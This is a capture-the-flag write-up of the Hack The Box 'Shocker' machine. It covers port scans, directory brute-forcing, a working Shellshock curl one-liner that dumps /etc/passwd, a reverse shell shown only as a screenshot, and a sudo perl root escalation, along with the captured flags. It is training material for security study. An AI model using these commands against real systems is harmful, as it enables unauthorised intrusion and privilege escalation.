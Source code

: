 ```yaml
---
layout: post
title: "Shocker Writeup - HackTheBox"
category: HackTheBox
---
```

# HTB lab Machine - Shocker

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.1.175 folder that I have attached to this post.

## Enumeration summary

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

![image-20210505112113518](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210505112113518.png)

```
Summary   : HTML5, Apache[2.4.18], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)]
```

```
| http-php-version: Logo query returned unknown hash 1694158b3f7adc637066c13aed71a979
```

```
PORT      STATE         SERVICE
9/udp     open|filtered discard
19/udp    open|filtered chargen
68/udp    open|filtered dhcpc
500/udp   open|filtered isakmp
520/udp   open|filtered route
631/udp   open|filtered ipp
1030/udp  open|filtered iad1
1646/udp  open|filtered radacct
1813/udp  open|filtered radacct
2000/udp  open|filtered cisco-sccp
3283/udp  open|filtered netassistant
4500/udp  open|filtered nat-t-ike
5632/udp  open|filtered pcanywherestat
10000/udp open|filtered ndmp
30718/udp open|filtered unknown
31337/udp open|filtered BackOrifice
32769/udp open|filtered filenet-rpc
33281/udp open|filtered unknown
49200/udp open|filtered unknown

```

## Exploitation

The name of the box made me think of shellshock. Eventhough the enumeration did not point me towards it. So I ran this script to see if it was vulnerable to shellshock: https://github.com/nccgroup/shocker

But it could not find anything vulnerable. So I ran dirbuster:

```
php,asp,aspx,bat,c,cfm,cgi,com,dll,exe,htm,html,inc,jhtml,jsa,jsp,log,mdb,nsf,phtml,pl,reg,sh,shtml,sql,txt,xml,py

/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

Which made me find this: http://shocker.htb/cgi-bin/user.sh

And do the occasional shellshock oneliner:

```
kali@kali:~$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://shocker.htb/cgi-bin/user.sh

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```

Nice, we have RCE. Lets create a revese shell:

![image-20210506084326283](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210506084326283.png)

```
shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
cd /home/shelly
shelly@Shocker:/home/shelly$ dir
dir
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
5c97048c0061c3e47f3c6c2d3e554cb4
shelly@Shocker:/home/shelly$ 


```

Okay, now we need to get root. Well, privesc is a joke on this machine:

```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/home/shelly
cd /root
dir
root.txt
cat root.txt
0d7595c4e9c1b372463644eab937cd04

```

## Final thoughts

I had some problems with initial foothold, but privesc was a walk in the park. This is a 20 pointer on OSCP, but def an easy one.
